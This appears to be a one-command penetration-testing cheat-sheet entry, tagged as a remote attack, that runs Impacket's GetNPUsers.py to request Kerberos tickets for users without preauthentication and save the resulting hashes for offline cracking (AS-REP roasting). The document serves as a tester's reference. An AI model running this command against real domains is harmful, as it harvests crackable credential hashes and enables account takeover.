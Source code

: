 # getnpusers
#plateform/linux #target/remote #cat/ATTACK

## Get TGTs for no preauth users
```
GetNPUsers.py -usersfile <usersfile|users.txt> -outputfile hashes.asreproast <domain>/
```
